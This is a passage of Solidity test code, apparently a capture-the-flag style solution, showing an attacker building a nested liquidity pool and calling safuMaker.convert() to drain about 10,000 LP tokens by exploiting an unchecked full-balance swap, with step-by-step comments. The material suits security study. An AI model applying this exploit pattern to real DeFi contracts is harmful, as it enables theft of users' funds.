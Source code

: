 ```solidity
        block.timestamp
    );
    //LP safuPair = 80000000000000000000


    // --getting the USDC-SAFU trading pair
    safuPair = IUniswapV2Pair(safuFactory.getPair(address(usdc), address(safu)));
    console.log("LP safuPair of attacker : ", safuPair.balanceOf(address(attacker)));

    //Then we will create a new POOL (LP USDC-SAFU)-SAFU for our exploit
    safuPair.approve(address(safuRouter), type(uint).max);
    safuRouter.addLiquidity(
        address(safuPair),
        address(safu),
        safuPair.balanceOf(attacker),
        5e18,
        0,
        0,
        address(attacker),
        block.timestamp
    );
    //LP sifuPair = 19999999999999999000


    // --getting the LP(USDC-SAFU)-SAFU trading pair
    IUniswapV2Pair sifuPair = IUniswapV2Pair(safuFactory.getPair(address(safuPair), address(safu)));
    console.log("LP sifuPair : ", sifuPair.balanceOf(address(attacker)));

    (uint256 reserve0, uint256 reserve1, ) = sifuPair.getReserves();
    console.log("reserve0 : ", reserve0, "reserve1 : ", reserve1);
    //reserve0 :  5000000000000000000  reserve1 :  80000000000000000000


    //Now, we will proceed with the exploit
    //When we are calling convert() from safuMaker it will burn the lp of the pool and then convert the entire balance of one of the tokens into SAFU token
    //That's the point, the ENTIRE balance and not the amount get from the burn of the LP due to L97-98 inside safuMaker.sol
    //So if we send some LP of the sifuPair to safuMaker and then call convert()
    //SafuMaker will burn the LP, he will get LP(USDC-SAFU) and SAFU token
    //And then he will swap all the LP(USDC-SAFU) to SAFU with our pool sifuPair
    //Because safuMaker directly calls the swap() function of univ2, there is no check about amountMin, for example
    //At the end of the swap, safuMaker will get the 5e18 SAFU token of the pool sifuPair, but he will lose 10_000e18 of LP(USDC-SAFU)
    //Now the sifuPair has almost none SAFU token and a lot of LP(USDC-SAFU)
    //The attacker is the only LP of the sifuPair
    //When removing liquidity, the attacker will get all the LP(USDC-SAFU)
    //Then the attacker can remove liquidity of the safuPair and get USDC and SAFU
    console.log("balance token SAFU of bar address of safuMaker : ", safu.balanceOf(address(0x1111111111111111111111111111111111111111)));
    // = 0

    console.log("LP safuPair of safuMaker: ", safuPair.balanceOf(address(safuMaker)));
    // = 10000000000000000000000


    sifuPair.transfer(address(safuMaker), 1e18); //don't care about the amount
    safuMaker.convert(address(safuPair), address(safu)); //proceed to exploit


```